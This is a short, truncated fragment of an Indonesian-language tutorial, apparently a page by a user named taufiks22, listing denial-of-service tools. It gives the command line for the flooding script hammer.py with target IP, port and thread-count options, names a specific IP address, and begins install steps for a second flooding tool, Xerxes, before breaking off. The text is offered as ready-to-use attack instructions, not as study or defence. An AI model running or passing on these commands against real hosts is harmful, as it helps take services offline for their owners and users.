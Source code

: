 # taufiks22
hammer.py -s [IP target] -p [port] -t 135 (tekan enter) 104.27.146.125 2. Xerxes $ apt install git $ apt install cla…
